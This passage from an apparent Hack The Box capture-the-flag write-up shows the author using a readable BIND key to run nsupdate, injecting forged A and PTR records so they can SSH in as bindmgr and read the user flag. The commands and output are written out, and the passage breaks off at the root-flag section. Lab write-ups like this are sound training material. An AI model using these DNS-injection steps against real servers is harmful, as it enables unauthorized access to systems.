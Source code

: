   After some research, found that this REFUSED error could be due to the key used and, checking the directory where the `ddns.key` was located, found 2 other files (as below), where the include using the file `infra.key` worked successfully **BUT** I still wasn't able to connect using SSH.

```bash
www-data@dynstr:/dev/shm$ ls -la /etc/bind/*.key
-rw-r--r-- 1 root bind 100 Mar 15 20:44 /etc/bind/ddns.key
-rw-r--r-- 1 root bind 101 Mar 15 20:44 /etc/bind/infra.key
-rw-r----- 1 bind bind 100 Mar 15 20:14 /etc/bind/rndc.key
```

  Doing some troubleshooting, noticed that I was able to solve the `attacker.infra.dyna.htb` but the reverse lookup of the IP address wasn't possible. To fix this, I have added another entry in the `nsupdate` command to also include a PTR record to the IP as below. A crucial point I also had to troubleshoot was that the A and PTR records **must be separated by a blank line**, otherwise the update would fail.

```bash
www-data@dynstr:/dev/shm$ cat nsupdate
server 127.0.0.1
update add attacker.infra.dyna.htb 30 A 10.10.10.10
send

update add 121.14.10.10.in-addr.arpa 30 PTR attacker.infra.dyna.htb
send
www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/infra.key
www-data@dynstr:/dev/shm$
```

  After that adjustment, I was able to SSH as `bindmgr` and read the content of `user.txt` file

```bash
bindmgr@dynstr:~$ ls -la
total 36
drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15 20:39 .
drwxr-xr-x 4 root    root    4096 Mar 15 20:26 ..
lrwxrwxrwx 1 bindmgr bindmgr    9 Mar 15 20:29 .bash_history -> /dev/null
-rw-r--r-- 1 bindmgr bindmgr  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bindmgr bindmgr 3771 Feb 25  2020 .bashrc
drwx------ 2 bindmgr bindmgr 4096 Mar 13 12:09 .cache
-rw-r--r-- 1 bindmgr bindmgr  807 Feb 25  2020 .profile
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 12:09 .ssh
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 14:53 support-case-C62796521
-r-------- 1 bindmgr bindmgr   33 Aug 16 15:49 user.txt
bindmgr@dynstr:~$ cat use
cat: use: No such file or directory
bindmgr@dynstr:~$ cat user.txt
<redacted>
```

## Root flag

As always, started with a `sudo -l` command, where I found that the `bindmgr` user is capable to run the script below as root:
